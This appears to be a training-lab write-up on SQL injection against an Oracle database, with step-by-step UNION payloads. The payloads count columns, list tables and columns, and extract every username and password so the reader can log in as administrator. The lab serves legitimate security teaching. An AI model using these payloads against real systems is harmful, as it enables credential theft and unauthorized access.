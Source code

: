        </div>



#### SQL injection attack, listing the database contents on Oracle

> This lab contains an SQL injection vulnerability in the product category filter. The results from the  query are returned in the application's response so you can use a UNION  attack to retrieve data from other tables.        
>
> The application has a login function, and the database  contains a table that holds usernames and passwords. You need to  determine the name of this table and the columns it contains, then  retrieve the contents of the table to obtain the username and password  of all users.        
>
> To solve the lab, log in as the `administrator` user.

<div class="component-solution is-expandable">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
                <ol>
                    <li>
                        Use Burp Suite to intercept and modify the request that sets the product category filter.
                    </li>
                    <li>
                        <p>
                            Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the <code>category</code> parameter:
                        </p>
                        <code class="code-scrollable">'+UNION+SELECT+'abc','def'+FROM+dual--</code>
                    </li>
                    <li>
                        <p>
                            Use the following payload to retrieve the list of tables in the database:
                        </p>
                        <code class="code-scrollable">'+UNION+SELECT+table_name,NULL+FROM+all_tables--</code>
                    </li>
                    <li>
                        Find the name of the table containing user credentials.
                    </li>
                    <li>
                        <p>
                            Use the following payload (replacing the table name) to retrieve the details of the columns in the table:
                        </p>
                        <code class="code-scrollable">'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--</code>
                    </li>
                    <li>
                        Find the names of the columns containing usernames and passwords.
                    </li>
                    <li>
                        <p>
                            Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:
                        </p>
                        <code class="code-scrollable">'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--</code>
                    </li>
                    <li>
                        Find the password for the <code>administrator</code> user, and use it to log in.
                    </li>
                </ol>